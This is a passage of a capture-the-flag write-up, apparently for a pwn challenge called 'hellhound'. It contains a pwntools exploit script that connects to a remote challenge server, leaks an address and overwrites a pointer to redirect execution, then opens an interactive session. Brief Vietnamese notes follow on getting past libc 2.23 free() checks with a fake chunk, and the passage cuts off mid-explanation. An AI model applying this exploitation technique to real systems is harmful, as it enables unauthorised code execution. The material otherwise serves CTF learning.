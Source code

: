 from pwn import *

context.binary = exe = ELF('./hellhound_patched',checksec=False)
libc = ELF('./hellhound',checksec=False)
ld = ELF('./ld-2.23.so',checksec=False)
#p = process()
p = remote('94.237.62.166',46869)
#gdb.attach(p,gdbscript='''
#           b*main+76
#           b*main+184
#           b*main+140
#           b*0x0000000000400D86
#           b*main+202
#           ''')
input()


p.sendlineafter(b'>> ',b'1')
p.recvuntil(b' [')
leak = int((p.recvuntil(b']')[:-1]).decode())

log.info(f"leak: {hex(leak)}")

p.sendlineafter(b'>> ',b'2')
p.sendafter(b'some code: ',b'a'*8 + p64(leak+0x50))


p.sendlineafter(b'>> ',b'3')

p.sendlineafter(b'>> ',b'2')
p.sendafter(b'some code: ',p64(exe.sym.berserk_mode_off) + p64(0))

p.sendlineafter(b'>> ',b'3')
p.sendlineafter(b'>> ',b'69')



p.interactive()
```

nói thêm vài điều : 

Chúng ta đang ở trong libc.2-23.so , điều đó có nghĩa là có một sự kiểm tra đối với bất kỳ thứ gì free() đang lấy làm đầu vào,
Có nghĩa là nếu nó không phải là địa chỉ heap, nó sẽ thoát ra với lỗi. Vì vậy, điều chúng ta phải làm là tạo ra một
đoạn giả để lừa free() . Như chúng tôi đã đề cập trước đó, đoạn giả phải có cấu trúc sau:

```
def overwrite(payload):
sla(">", "2")
sla(":", payload)
sla(">", "3")
